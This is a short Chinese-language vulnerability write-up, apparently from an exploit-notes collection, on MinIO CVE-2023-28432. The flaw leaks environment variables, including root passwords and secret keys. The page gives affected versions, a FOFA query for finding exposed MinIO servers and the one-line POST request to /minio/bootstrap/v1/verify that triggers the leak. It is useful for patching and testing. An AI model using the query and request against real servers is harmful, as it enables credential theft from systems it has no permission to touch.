


# MinIO verify 敏感信息泄漏漏洞 CVE-2023-28432

## 漏洞描述

Minio 是一个多云对象存储框架。在从RELEASE.2019-12-17T23-16-33Z开始到RELEASE.2023-03-20T20-16-18Z之前的集群部署中，MinIO存在漏洞发送请求后返回所有环境变量，包括MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD，导致信息泄露。分布式部署的所有用户都会受到影响

## 漏洞影响

```
MinIO <= RELEASE.2023-03-20T20-16-18Z
```

## FOFA

```
app="minio"
```

## 漏洞复现

登陆页面



验证POC (默认端口:9000)

```
POST /minio/bootstrap/v1/verify
```

